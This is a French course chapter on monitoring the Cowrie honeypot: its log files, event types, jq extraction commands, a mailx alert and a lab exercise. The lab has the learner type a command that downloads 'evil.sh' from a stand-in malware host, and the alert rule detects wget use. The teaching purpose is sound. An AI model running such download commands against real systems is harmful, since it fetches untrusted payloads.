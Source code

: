 # CHAPITRE 05 – Surveillance et collecte de données

---

## 1. Objectifs pédagogiques

À l’issue de ce chapitre, l’apprenant sera capable de :

* Identifier les types de données collectées par Cowrie
* Lire et interpréter les fichiers journaux produits
* Extraire les comportements suspects et les IOCs (indicateurs de compromission)
* Centraliser les logs pour une corrélation ou une visualisation (ex : ELK, Grafana)
* Créer des alertes simples pour une détection précoce d’attaques

---

## 2. Fichiers de log générés par Cowrie

Une fois Cowrie lancé, plusieurs fichiers sont automatiquement créés dans le dossier `log/`.

### 2.1. cowrie.log

* Format : texte brut
* Contient les messages de debug, connexions, erreurs d’exécution
* Lecture simple :

```bash
tail -f log/cowrie.log
```

### 2.2. cowrie.json

* Format : JSON (machine-readable, structuré)
* Utilisé pour les intégrations SIEM, alertes automatisées, outils de visualisation

Exemple :

```json
{
  "eventid": "cowrie.session.connect",
  "timestamp": "2025-07-04T10:30:55.520Z",
  "src_ip": "185.213.21.88",
  "session": "abc123456"
}
```

Lecture :

```bash
cat log/cowrie.json | jq .
```

---

### 2.3. ttylog/

* Enregistrements des sessions complètes (brutes) en format binaire
* Chaque fichier correspond à une session SSH ou Telnet
* Rejouer une session :

```bash
bin/playlog.py log/tty/ttylog.20250704-abc.log
```

---

### 2.4. dl/

* Répertoire des **fichiers uploadés par les attaquants** (via wget, curl, scp…)
* Exemples : scripts `.sh`, malware ELF, dropper Python
* Analyse possible : `file`, `strings`, `virustotal`, `yara`, `clamscan`

---

## 3. Événements typiques collectés (`eventid`)

Cowrie utilise des événements structurés. Voici quelques `eventid` utiles :

| Event ID                       | Description                    |
| ------------------------------ | ------------------------------ |
| `cowrie.session.connect`       | Connexion entrante             |
| `cowrie.login.success`         | Connexion réussie              |
| `cowrie.login.failed`          | Tentative échouée              |
| `cowrie.command.input`         | Commande tapée par l'attaquant |
| `cowrie.session.file_download` | Téléchargement via wget/curl   |
| `cowrie.session.file_upload`   | Téléversement via SCP/SFTP     |
| `cowrie.session.closed`        | Fin de session                 |

---

## 4. Extraction manuelle des données

### 4.1. Extraire toutes les adresses IP ayant tenté une connexion :

```bash
jq 'select(.eventid=="cowrie.session.connect") | .src_ip' log/cowrie.json | sort | uniq -c
```

### 4.2. Extraire les commandes tapées :

```bash
jq 'select(.eventid=="cowrie.command.input") | .input' log/cowrie.json
```

### 4.3. Voir les fichiers téléchargés :

```bash
jq 'select(.eventid=="cowrie.session.file_download") | {url: .url, dest: .outfile}' log/cowrie.json
```

---

## 5. Création d’alertes simples

### 5.1. Email automatique avec `mailx`

Déclencher une alerte si une commande `wget` est utilisée :

```bash
tail -f log/cowrie.json | jq -c 'select(.input=="wget")' | while read line; do
    echo "Alerte : wget détecté" | mailx -s "Alerte Cowrie" admin@example.com
done
```

### 5.2. Notification Telegram ou Discord

Utilisation d’un webhook (non couvert ici, voir Chapitre 06)

---

## 6. TP-05 : Visualisation et extraction manuelle

**Objectif** : Extraire, interpréter et rejouer les logs produits par Cowrie après une session simulée.

### Étapes :

1. Lancer Cowrie :

```bash
source cowrie-env/bin/activate
bin/cowrie start
```

2. Se connecter :

```bash
ssh admin@localhost -p 2222
mot de passe : admin123
```

3. Taper des commandes :

```bash
cd /tmp
wget http://malware.com/evil.sh
```

4. Observer les logs :

```bash
cat log/cowrie.log | tail -n 20
cat log/cowrie.json | jq '.'
```

5. Rejouer la session :

```bash
ls log/tty/
bin/playlog.py log/tty/ttylog.<timestamp>.log
```

6. Voir les fichiers téléchargés :

```bash
ls dl/
file dl/*
strings dl/*
```

---

## 7. Questions de révision

1. Quelle est la différence entre `cowrie.log` et `cowrie.json` ?
2. Où sont stockés les fichiers téléchargés par un attaquant ?
3. À quoi sert le fichier `ttylog/` ?
4. Que signifie l’eventid `cowrie.login.success` ?
5. Comment détecter automatiquement l’utilisation de `wget` ?

---

## 8. Ressources

* Analyse JSON : [https://stedolan.github.io/jq/](https://stedolan.github.io/jq/)
* Démo playlog : `bin/playlog.py log/tty/ttylog.2025...`
* Cowrie logging : [https://cowrie.readthedocs.io/en/latest/logging.html](https://cowrie.readthedocs.io/en/latest/logging.html)


